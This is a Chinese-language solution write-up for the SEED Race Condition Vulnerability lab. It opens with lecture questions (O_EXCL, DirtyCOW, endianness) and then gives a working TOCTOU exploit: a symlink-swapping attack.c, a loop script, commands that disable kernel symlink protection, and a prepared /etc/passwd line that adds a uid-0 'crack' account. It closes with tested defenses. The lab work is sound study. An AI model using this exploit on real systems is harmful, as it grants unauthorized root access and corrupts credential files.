




# Race Condition Vulnerability Lab Solution Seed

本文作者：[对酒当歌](https://blog.csdn.net/youyouwoxi)、边城

# Lec

#### 1、linux下用open函数打开文件时，要是采用O_WRONLY模式为何容易产生竞争条件漏洞？换成 O_WRONLY | O_CREAT | O_EXCL 模式后情况会如何？ 

- open 函数用于打开和创建文件。open（）的调用格式为` int open(const char *pathname, int oflag, ... );`返回值：成功则返回文件 描述符，否则返回 -1

- O_WRONLY 的含义是只写打开；O_CREAT 含义是文件存在则使 用，不存在则新建 ；

- O_EXCL 含义是检查文件是否存在，不存在则新 建，存在则返回错误信息 如果只采用 O_WRONLY 模式，root 总是可以创建文件。换成 O_WRONLY | O_CREAT | O_EXCL 模式后就不会出现这个问题。

  > O_RDONLY 以只读方式打开文件
  >
  > O_WRONLY 以只写方式打开文件
  >
  > O_RDWR 以可读写方式打开文件

  上述三种旗标是互斥的, 也就是不可同时使用, 但可与下列的旗标利用OR(|)运算符组合.

  > O_CREAT 若欲打开的文件不存在则自动建立该文件.
  >
  > O_EXCL 如果O_CREAT 也被设置, 此指令会去检查文件是否存在. 

  文件若不存在则建立该文件, 否则将导致打开文件错误. 此外, 若O_CREAT 与O_EXCL 同时设置, 并且欲打开的文件为符号连接, 则会打开文件失败.

#### 2、阅读一篇文章“从一个漏洞谈到ptrace的漏洞发现及利用方法”，地址为http://www.nsfocus.net/index.php?act=magazine&do=view&mid=1795。描述其中的竞争条件漏洞出现的原因。

- current 指向这个内核线程的 task_struct 结构，而与创建这个线 程时的 current 不同，那时候的 current 指向当时的当前进程，即 exec_modprobe（）的父进程。内核线程 exec_modprobe（）从其父 进程继承了绝大部分资源和特性，包括它的 fs_struct 的内容和打开的 所有文件，以及它的进程号、组号，还有所有的特权。但是这些特性 在这个函数里大多被拚弃了(见源码的 19 行到 42 行，这里设置了该 内核线程的信号、euid 、egid 等，使之变成超级用户)，不过在拚弃这些特性之前之前，我们的父进程，或同组进程是应该可以调试该内 核线程的。漏洞也就在这里。 

- 当进程请求的功能在模块中的情况下，内核就会派生一子进程， 并把子进程的 euid 和 egid 设置为 0 并调用 execve("/sbin/modprobe")。 问题是在子进程 euid 改变为 0 前可以被 ptrace()挂接调试，因此攻击 者可以插入任意代码到进程中并以 root 用户的权限运行。

#### 3、上网搜索CVE-2016-5195漏洞的相关资料。描述其中的整数溢出和竞争条件漏洞出现的原因。

脏牛漏洞（DirtyCOW）是由于Linux内核的内存子系统在处理copy-on-write（COW）时出现竞争条件，导致私有只读存储器映射被破坏，可利用此漏洞非法获得读写权限，进而提升权限。

漏洞目的是修改一个只读文件，这样就可以修改一些只有root可写的特权文件比如/etc/passwd。

漏洞产生的场景如下：使用write系统调用向/proc/self/mem这个文件写入内容，内核会调用get_user_pages函数，这个函数的作用是根据虚拟内存地址寻找对应的页物理地址。函数内部调用follow_page_mask来寻找页描述符，follow_page_mask - look up a page descriptor from a user-virtual address。

第一次获取页表项会因为缺页失败(请求调度的机制)。get_user_pages会调用faultin_page以及handle_mm_fault来获取一个页框并将映射放到页表中。继续第二次的follow_page_mask获取页表符，因为获取到的页表项指向的是一个只读的映射，所以这次获取也会失败。get_user_pages第三次调用follow_page_mask的时候不再要求页表项指向的内存映射有可写权限，因此可以成功获取，获取之后就可以对只读内存进行强制写入操作。

但是在上述第二次失败之后如果我们用一个线程调用madvise(addr,len,MADV_DONTNEED),其中addr-addr+len是一个只读文件的VM_PRIVATE的只读内存映射，那映射的页表项就会变为空。这时候如果第三次调用follow_page_mask来获取页表项，就不会用之前COW的页框了(页表项为空了)，而是直接去找原来只读的那个内存页，现在又不要求可写，因此不会再COW，直接写这个物理页就会导致修改了只读文件。

#### 4、`echo "crack:"$(openssl passwd -1 -salt a3g1 123456)":0:0:,,,:/root:/bin/bash"`的输出结果是什么？root用户把输出的这一行加入/etc/passwd末尾会产生什么效果？（提前备份该文件，之后恢复）

输出结果如下： 

```bash
echo "crack:"$(openssl passwd -1 -salt a3g1 123456)":0:0:,,,:/root:/bin/bash"

crack:$1$a3g1$sjnd1nkAwCfjT4/r0sTA20:0:0:,,,:/root:/bin/bash
```


这一行加入/etc/passwd 末尾的结果是产生了一个新用户


#### 5、解释Big Endian 和 Little Endian 模式，以及两者的区别。

**Little-endian**：将低序字节存储在起始地址（低位编址）



**Big-endian**：将高序字节存储在起始地址（高位编址） 


3）区别是存放的起始地址不一样

4）对于字节序列的存储格式，目前有两大阵营，那就是Motorola的PowerPC系列CPU和Intel的x86系列CPU。PowerPC系列采用big endian方式存储数据，而x86系列则采用little endian方式存储数据。

5）C/C++语言编写的程序里数据存储顺序是跟编译平台所在的CPU相关的，而JAVA编写的程序则唯一采用big endian方式来存储数据。

#### 6、**认真观看**P7 Race Condition Vulnerability Lecture 

Software Security - Kevin Du - SEED Project - Syracuse University https://www.bilibili.com/video/BV1v4411S7mv 大概说下视频的内容。

视频以实例对竞态条件漏洞做了分析，并由实验引导实现对竞态条件漏洞的攻击。提出了一些防御措施。

最小权限原则（最早由 Saltzer 和 Schroeder 提出），是指每个程序和系统用户都应该具有完成任务所必需的最小权限集合。

它要求计算环境中的特定抽象层的每个模块只能访问当下所必需的信息或者资源。

竞态条件发生在并发任务访问共享资源时，如果访问的结果取决于访问顺序，就会发生竞态条件，通过改变访问顺序，攻击者可以影响特权程序的行为。一个常见的竞态条件漏洞称为TOCTTOU，也就是特权程序在使用资源前会做一些检查。如果攻击者可以在条件检查通过后和资源访问之前立即改变条件，那前面的检查就变得无效了，这将导致特权程序能够访问不该访问的资源。利用这种方法，攻击者可利用特权程序修改一个受保护的文件。

为了防止竞态条件漏洞，开发者需要知晓程序内部可能存在的竞态条件。为减少安全隐患，可使操作原子化，提高赢得竞态条件的难度，或在条件竞争窗口内降低程序权限(如果可能的话)。本章主要关注Set-UID程序的TOCTTOU类型的竞态条件。在第8章脏牛竞态条件攻击中，将会讨论另一种有趣的竞态条件。该竞态条件漏洞在Linux内核中存在多年，利用它，普通用户可以很容易获得操作系统的root权限。

# Lab

Race Condition

- 发生在：
  - 多个进程同时访问和操作相同的数据。
  - 执行的结果取决于特定顺序。
- 如果一个特权程序具有竞争条件，则攻击者可以通过对此产生影响来影响特权程序的输出 无法控制的事件。

当两个并发线程的执行线程以根据线程或过程的定时而无意地产生不同结果的方式访问共享资源。

```javascript
function withdraw($amount)//如果有两个同时撤销请求，则可以在此处出现竞态条件。
$balance = getBalance();
if ($amount <= $balance) {
    $balance = Sbalance - $amount;
    echo "You have withdrawn: $amount";
    saveBalance($balance);
else {
        echo "Insufficient funds.";
    }
}
```

> 当用户取款时，这个函数从银行的远端数据库中得到该用户的账户余额，检查取款数是否低于余额。如果检查通过，就发出指令让取款机吐出相应金额的钱，并更新数据库中的账户余额。试想这样一种情况，假如账户中只有1000元，能否取出1 800元?
> 为了做到这一点，需要有两张银行卡，再找一个同谋。两个人可以分别在两个不同的取款机上同时取900元。当第台取款机刚批准 了取款请求， 还没来得及更新余额之前，第二台取款机就已经读取了余额，这样两台取款机得到的余额都是1 000元，它们都会批准900元的取款请求。所以两人加起来能取出1800元，并且账户余额还会有100元。这显然是程序的一个漏洞，这种漏洞就叫作竞态条件漏洞。

```c
if (!access("/tmp/X", W_OK))
{
    /* the real user has the write permission*/
    f = open("/tmp/X", O_WRITE);
    write_to_file(f);
}
else
{
    /* the real user does not have the write permission */
    fprintf(stderr, "Permission denied\n");
}
```

> - 上面的程序写入/ tmp目录（world-writable）中的文件
> - 因为root可以写入任何文件，程序可确保真实的用户具有写入目标文件的权限。
> - `access（）`系统调用检查 真实的用户ID具有对/tm/x
> - 检查后，将打开文件以写入。
> - open（）检查为0的有效用户ID，因此将打开文件。

**目标**：==写入/ etc / passwd等受保护的文件==。 

> 为实现此目标，我们需要将`/etc/passwd`作为目标文件进行，而无需更改程序中的文件名
>
> - Symbolic链接（软链接）有助于我们实现它。
> - 它是指向另一个文件的特殊文件。

```mermaid
graph TD
    A[在/tmp目录下创建一个常规文件X] -->|通过access函数检查| B[将/tmp/X改为符号链接,指向/etc/passwd]
    B --> C[open函数检查EID是否为root]
    C -->D[打开密码文件写入]
```


> 问题:由于程序每秒运行数十亿条指令，检查时间和使用时间之间的窗口只会持续很短的一段时间，因此不可能更改为符号链接。如果更改太早，access()将失败。如果更改稍晚，程序将使用该文件完成。

> 赢得竞争条件（tocttou窗口），我们需要两个进程：在Loproprun攻击计划中运行易受攻击的程序


## 准备工作

Ubuntu11.04 和 12.04 提供了一个内置的防止竞态条件攻击的保护。 这个方案通过限制谁可以跟随系统链接来工作。对于这个实验，我们需要禁用这个保护。 可以使用以下命令实现这一点： 

```bash
sudo sysctl -w kernel.yama.protected_sticky_symlinks=0
```

###  **A Vulnerable Program**

下面的程序是一个看似无害的程序。 它包含一个竞态条件漏洞。

```c
/*  vulp.c  */

#include <stdio.h>
#include <unistd.h>
#include <string.h>

int main()
{
   char *fn = "/tmp/XYZ";
   char buffer[60];
   FILE *fp;

   /* get user input */
   scanf("%50s", buffer);

   if (!access(fn, W_OK))
   {

      fp = fopen(fn, "a+");
      fwrite("\n", sizeof(char), 1, fp);
      fwrite(buffer, sizeof(char), strlen(buffer), fp);
      fclose(fp);
   }
   else
      printf("No permission \n");
}
```

> 这是 Set-UID 程序的一部分(由 root 拥有)；它将一串用户输入附加到临时文件/tmp/XYZ 的末尾。 由于代 码使用根特权运行，它仔细检查真正的用户是否实际拥有对文件/tmp/XYZ 的访问权限；这是访问()调用的目 的。 一旦程序确保真正的用户确实有权，程序将打开文件并将用户输入写入文件。 
>
> 看来程序在第一次查看时没有任何问题。但是，在这个程序中存在一个竞态条件漏洞：由于检查(Access) 和使用(fopen)之间的窗口（模拟延迟），访问使用的文件可能与 fopen 使用的文件不同，尽管它们具有相同 的文件名`/tmp/XYZ`。 如果恶意攻击者可以以某种方式使`/tmp/XYZ `成为指向`/etc/shadow` 的符号链接，则攻击 者可以将用户输入附加到`/etc/shadow`（请注意，程序使用root特权运行，因此可以覆盖任何文件）。

## **Guidelines**指导方针

#### **1 Two Potential Targets**

两个潜在目标 

在 vulp.c 中，可能有许多方法来利用竞态条件脆弱性。 一种方法是使用漏洞将一些信息附加到/etc/passwd 和 /etc/shadow。Unix 操作系统使用这两个文件对用户进行身份验证。如果攻击者可以将信息添加到这两个文件 中，他们本质上有能力创建新用户，包括超级用户(通过让 uid 为零)。 

/etc/passwd 文件是 Unix 机器的身份验证数据库。包含基本用户属性.. 这是一个 ASCII 文件，其中包含每 个用户的条目。 每个条目定义应用于用户的基本属性。 当您使用 adduser 命令向系统添加用户时，该命令将 更新/etc/passwdfile。 

文件/etc/passwd 必须具有世界可读性，因为许多应用程序需要访问用户属性，如用户名、主目录等。 在 该文件中保存加密密码意味着任何能够访问该机器的人都可以使用密码破解程序（如破解）来闯入他人的帐 户。 为了解决这个问题，创建了影子密码系统。 影子系统中的/etc/passwd 文件是世界可读的，但不包含加密 密码。 另一个文件/etc/shadow 仅由 root 可读，它包含密码。 

若要找出要添加到这两个文件中的字符串，请运行 adduser，并查看添加到这些文件中的内容。例如，下 面是在创建一个名为 smith 的新用户之后添加到这些文件中的内容：

```bash
/etc/passwd:
-------------
	smith:x:1000:1000:Joe Smith,,,:/home/smith:/bin/bash

/etc/shadow:
-------------
	smith:*1*Srdssdsdi*M4sdabPasdsdsdasdsdasdY/:13450:0:99999:7:::
```

文件/etc/passwd 中的第三列表示用户的 UID。因为 smith 账号是普通用户账号，所以其价值 1000 没有什 么特别的.. 如果我们把这个条目改为 0，史密斯现在变成root。 

#### 2 **Creating symbolic links**

 创建符号链接

 您可以调用 C 函数 symlink()在程序中创建符号链接。由于 Linux 不允许创建链接，如果链接已经存在，我们 需要首先删除旧链接。 下面的 C 代码片段展示了如何删除链接，然后使/tmp/XYZ 指向/etc/passwd： 

```c
unlink("/tmp/XYZ");
symlink("/etc/passwd","/tmp/XYZ");
```

您还可以使用 Linux 命令"`ln -sf`"创建符号链接。这里的"`f`"选项意味着，如果链接存在，请先删除旧链接。 "`ln`"命令的实现实际上使用 `unlink()`和` symlink()`。

#### **3 Improving success rate**

提高成功率 

RACE 条件攻击的最关键步骤（即指向目标文件的链接）必须发生在检查和使用之间的窗口内，即 vulp.c 中 的访问和 fopen 调用之间。 由于我们不能修改易受攻击的程序，我们唯一能做的就是与目标程序并行运行我 们的攻击程序，希望链接的更改确实发生在这个关键窗口内.. 不幸的是，我们无法达到完美的时机。 因此， 攻击的成功是概率的。如果窗口很小，成功攻击的概率可能很低。您需要考虑如何增加概率（提示：您可以 多次运行脆弱程序；您只需要在所有这些试验中获得一次成功）。 由于您需要多次运行攻击和脆弱程序，因此需要编写一个程序来自动化攻击过程。为了避免手动输入到 vulp，可以使用重定向。 也就是说，在文件中键入输入，然后在运行 vulp 时重定向此文件。 例如，您可以使 用以下内容： vulp < FILE。 

#### **4 Knowing whether the attack is successful**

知道攻击是否成功 

由于用户没有访问`/etc/shadow `的读取权限，因此无法知道是否修改了它。 唯一可能的方法是看它的时间戳。 此外，如果我们停止攻击，一旦条目被添加到相应的文件将更好。下面的 shell 脚本检查/etc/shadow 的时间戳 是否已更改。 一旦注意到更改，它将打印一条消息。 

```bash
#!/bin/sh
old=‘ls -l /etc/shadow‘
new=‘ls -l /etc/shadow‘
while [ "$old" = "$new" ]
do
	new=‘ls -l /etc/shadow‘
done
echo "STOP... The shadow file has been changed"
```

#### **5 An Undesirable Situation**

不可取的情况 

在测试攻击程序时，您可能会发现/tmp/XYZ 是以 root 为所有者创建的。如果发生这种情况，您已经失去了"种 族"，即文件是由root创建的。一旦发生这种情况，就没有办法删除这个文件。这是因为/tmp 文件夹上有一个"粘 性"位，这意味着只有文件的所有者才能删除该文件，即使该文件夹是世界可写的。

 如果发生这种情况，您需要调整攻击策略，然后再试一次（当然，在手动从root帐户中删除文件之后）。发 生这种情况的主要原因是，攻击程序在删除/tmp/XYZ 之后立即被关闭，但在它将名称链接到另一个文件之前。 请记住，删除现有符号链接并创建新链接的操作不是原子的（它涉及两个单独的系统调用），因此如果上下 文切换发生在中间(即在/tmp/XYZ 删除之后)，并且目标 Set-UID 程序有机会运行其 `fopen(fn，"a+")`语句，它 将创建一个以 root 为所有者的新文件。 想想一种策略，它可以最大限度地减少在该操作中间切换上下文的机会。

#### 6 Warning

警告

在过去，一些学生在攻击过程中意外地清空了/etc/shadow 文件（我们仍然不知道是什么造成的）。 如果您丢失了shadow文件，您将无法再次登录。 为了避免这种麻烦，请制作原始shadow文件的副本。

## Task 1: Exploit the Race Condition Vulnerabilities

任务 1：开发竞态条件脆弱性

> 您需要在上面的 Set-UID 程序中利用竞赛条件漏洞。 更具体地说，您需要实现以下内容： 
>
> 1. 重写任何属于 root 的文件。 
>
> 2. 获得 root 特权；也就是说，您应该能够做任何root可以做的事情。

```c
/*  vulp.c  */

#include <stdio.h>
#include <unistd.h>
#include <string.h>

int main()
{
   char *fn = "/tmp/XYZ";
   char buffer[60];
   FILE *fp;

   /* get user input */
   scanf("%50s", buffer);

   if (!access(fn, W_OK))
   {

      fp = fopen(fn, "a+");
      fwrite("\n", sizeof(char), 1, fp);
      fwrite(buffer, sizeof(char), strlen(buffer), fp);
      fclose(fp);
   }
   else
      printf("No permission \n");
}
```

直接使用源文件可能会发出警告：vulp.c:20:42: warning: incompatible implicit declaration of built-in function ‘strlen’ [enabled by default]

在C语言中，使用以前未声明的函数构成函数的隐式声明。在隐式声明中，返回类型是int。现在，GCC有了一些标准函数的内置定义。如果隐式声明与内置定义不匹配，则会发出此警告。要解决这个问题，就必须在使用函数之前声明它们；通常可以通过包含适当的头文件来实现这一点。

```c
#include <string.h>
```

#### 编译vulp

首先编译 vulp.c 代码，将二进制代码文件设置为 root 所有的 Set-UID 程序。禁用保护措施。

```bash
sudo sysctl -w kernel.yama.protected_sticky_symlinks=0
```

```bash
gcc vulp.c -o vulp
sudo chown root vulp
sudo chmod 4755 vulp
```


#### 创建passwd_input

内容为

```bash
crack:$1$a3g1$sjnd1nkAwCfjT4/r0sTA20:0:0:,,,:/root:/bin/bash
```

或者

```bash
crack:a39StiWb.hkcY:0:0:,,,:/root:/bin/bash
```

关于内容来源

```bash
echo "crack:"$(openssl passwd -crypt -salt a3g1 123456)":0:0:,,,:/root:/bin/bash"
```


#### 编写attack.c文件

```c
#include <unistd.h>

int main()
{
    while (1)
    {
        unlink("/tmp/XYZ");
        symlink("/dev/null", "/tmp/XYZ");
        usleep(1000);

        unlink("/tmp/XYZ");
        symlink("/etc/passwd", "/tmp/XYZ");
        usleep(1000);
    }
    return 0;
}
```

编译

```bash
 gcc -o attack attack.c
```

#### 创建攻击脚本target.sh

```bash
#!/bin/bash

CHECK_FILE="ls -l /etc/passwd"
old=$($CHECK_FILE)
new=$($CHECK_FILE)
while [ "$old" == "$new" ]
do
	./vulp < passwd_input
	new=$($CHECK_FILE)
done

echo "STOP...The passwd file has been changed"
```

如果执行脚本时报错：`'\r': command not found`，可能是因为在window下编辑完成后上传到linux，win下的换行是回车符+换行符，即\r\n，而unix下是换行符\n，因此不识别\r为回车符，所以导致每行多了个\r。

使用如下命令去除即可

```bash
sed -i 's/\r//' target.sh
```

#### 共同执行

```bash
./attack
```

再打开一个终端

```bash
sudo sysctl -w kernel.yama.protected_sticky_symlinks=0
bash target.sh
```



攻击成功，查看密码文件发现已经写入

```bash
cat /etc/passwd
```


也可以使用此账户获得root权限

```bash
su crack
123456
```


##  **Task 2: Protection Mechanism A: Repeating**

保护机制 A：重复 

> 摆脱竞态条件并不容易，因为检查和使用模式往往是必要的程序。而不是取消比赛条件，我们实际上可以增 加更多的比赛条件，这样为了损害程序的安全性，攻击者需要赢得所有这些比赛条件。 如果这些比赛条件设 计得当，我们可以成倍地降低攻击者的获胜概率。 基本思想是重复access()并open()几次；每次打开文件， 最后通过检查它们的 i-node（它们应该是相同的）来检查是否打开了相同的文件。请使用此策略修改易受攻击的程序，并重复您的攻击。 报告成功是多么困难，如果你还能成功的话。

把 task1 的 vulp.c 换成以下代码：

```c
#include <string.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/stat.h>
void no_perm(void)
{
	printf("no permission.\n");
	exit(EXIT_FAILURE);
}

int main(int argc, char *argv[])
{
	char *fn = "/tmp/XYZ";
	char buffer[60];
	FILE *fp;
	long int i;
	long int rep = 0; // number of repetition
	struct stat inodes[2] = {0};

	rep = 50;
	/* get user input */
	scanf("%50s", buffer);
	for (i = 0; i < rep; ++i)
	{
		if (!access(fn, W_OK))
		{
			stat(fn, &inodes[i % 2]);
			if (i > 0)
			{
				if (inodes[0].st_ino != inodes[1].st_ino)
				{
					no_perm();
				}
			}
		}
		else
		{
			no_perm();
		}
	}
	fp = fopen(fn, "a+");
	fwrite("\n", sizeof(char), 1, fp);
	fwrite(buffer, sizeof(char), strlen(buffer), fp);
	fclose(fp);
}
```

修改vulp.c后，重新编译执行

```bash
sudo sysctl -w kernel.yama.protected_sticky_symlinks=0
gcc vulp.c -o vulp
sudo chown root vulp
sudo chmod 4755 vulp
./attack
```

再重新开另一个终端，执行脚本

```bash
sudo sysctl -w kernel.yama.protected_sticky_symlinks=0
bash target.sh
```


攻坚成功

##  **Task 3: Protection Mechanism B: Principle of Least Privilege**

保护机制 B：最小特权原则 

> 本实验室易受伤害程序的根本问题是违反最小特权原则。程序员确实理解运行程序的用户可能太强大，因此 他/她引入了访问()来限制用户的能力。然而，这不是适当的办法。 更好的方法是应用最小特权原则；也就是说，如果用户不需要某些特权，则需要禁用特权。 我们可以使用 seteuid 系统调用暂时禁用根特权，如果有必要，我们可以稍后启用它。 请使用此方法修复 程序中的漏洞，然后重复您的攻击。

修改代码

```c
#include <stdio.h>
#include <string.h>
#include <unistd.h>
int main()
{
    char *fn = "/tmp/XYZ";
    char buffer[60];
    FILE *fp;
    /* get user input */
    scanf("%50s", buffer);
    seteuid(getuid());
    if (!access(fn, W_OK))
    {
        fp = fopen(fn, "a+");
        fwrite("\n", sizeof(char), 1, fp);
        fwrite(buffer, sizeof(char), strlen(buffer), fp);
        fclose(fp);
    }
    else
        printf("No permission \n");
}
```

轻车熟路的重新编译攻击，发现这次已然不能成功。

```bash
sudo sysctl -w kernel.yama.protected_sticky_symlinks=0
gcc vulp.c -o vulp
sudo chown root vulp
sudo chmod 4755 vulp
./attack


sudo sysctl -w kernel.yama.protected_sticky_symlinks=0
bash target.sh
```

直至 `Segmentation fault`内存访问越界都不能成功，即使用 setuid 系统调用暂时禁止 root 权限后，无法再成功攻击。



## **Task 4: Protection Mechanism C:** Ubuntu**’s Built-in Scheme**

> 此任务仅适用于那些使用我们的 Ubuntu11.04 或 12.04VM 的人。正如我们在初始设置中提到的，Ubuntu11.04 和 12.04 提供了一个内置的保护方案，以防止竞态条件攻击。 在此任务中，需要使用以下命令将保护打开：
>
> ```bash
> sudo sysctl -w kernel.yama.protected_sticky_symlinks=1
> ```
>
> 在你的报告中，请描述你的观察。 还请解释以下几点：
>
> 1. 为什么这种保护方案有效？ 
> 2. 这是一个 很好的保护吗？ 为什么或者为什么不？
> 3. 该计划有何局限性？

恢复Task1时的vulp.c

启用系统的竞态条件防护漏洞后再次运行攻击程序

```bash
sudo sysctl -w kernel.yama.protected_sticky_symlinks=1
gcc vulp.c -o vulp
sudo chown root vulp
sudo chmod 4755 vulp
./attack


sudo sysctl -w kernel.yama.protected_sticky_symlinks=1
bash target.sh
```




攻击失败，此防护方法有效。文件符号链接一直失败。有了这个保护机制，可以防止程序在特定情况下跟随符号链接，即使攻击者可以赢得竞争条件，他们也无法造成危害。该机制应该是当检测到权限所有者和链接指向文件不匹配时，中止链接。
